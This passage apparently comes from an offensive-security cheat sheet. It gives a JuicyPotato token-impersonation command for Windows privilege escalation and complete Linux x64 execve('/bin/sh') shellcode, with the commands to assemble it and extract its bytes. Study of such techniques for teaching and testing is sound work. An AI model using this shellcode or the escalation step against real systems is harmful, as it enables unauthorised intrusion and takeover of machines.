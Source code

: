 **Token impersonation:**

```powershell
# Check for SeImpersonatePrivilege
whoami /priv

# If enabled, use JuicyPotato/RoguePotato
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -t * -c {CLSID}
```

---

## Exploit Development

### Shellcode Development

**Linux x64 execve("/bin/sh") shellcode:**

```nasm
; execve("/bin/sh", NULL, NULL)
global _start
section .text

_start:
    xor rax, rax
    push rax              ; NULL terminator
    mov rbx, 0x68732f6e69622f  ; "/bin/sh" in reverse
    push rbx
    mov rdi, rsp          ; rdi = pointer to "/bin/sh"
    push rax              ; argv[1] = NULL
    push rdi              ; argv[0] = "/bin/sh"
    mov rsi, rsp          ; rsi = argv
    xor rdx, rdx          ; rdx = NULL (envp)
    mov al, 59            ; syscall number for execve
    syscall
```

**Assemble and extract shellcode:**

```bash
# Assemble
nasm -f elf64 shellcode.asm -o shellcode.o

# Link
ld shellcode.o -o shellcode

# Extract shellcode bytes
objdump -d shellcode -M intel

# Or use objcopy
objcopy -O binary shellcode shellcode.bin
xxd -p shellcode.bin | tr -d '\n'
```
